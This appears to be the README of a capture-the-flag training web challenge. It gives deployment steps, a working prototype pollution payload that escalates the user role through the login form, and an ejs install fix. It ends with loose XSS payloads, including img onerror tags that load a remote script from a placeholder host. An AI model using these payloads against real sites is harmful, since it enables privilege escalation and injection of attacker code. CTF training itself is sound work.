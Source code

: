 # Type
`challenge CTF training: Re03`
# Deploy
- `docker-compose up -d --build`
# Description
Prototype pollution vulnerability.
## Chức năng
- Đăng nhập
## Solution
- POST data trong chức năng đăng nhập: {"\_\_proto\_\_":{"role":1}} (lưu ý header cần sửa thành Content-Type: application/json)
## Error: Cannot find module 'ejs' --> fix:
- `cd ./web`
- `npm install ejs`
<img src="http://nonexistent-image" onerror="var script = document.createElement('script'); script.src='http://ip/client.js'; document.body.appendChild(script);">
java:alert()
<a href="javascript:alert(1)">Click here</a>
//<img src="nonexistent.jpg" onerror="var script = document.createElement('script'); script.src = 'http://ip/client.js'; document.body.appendChild(script);">
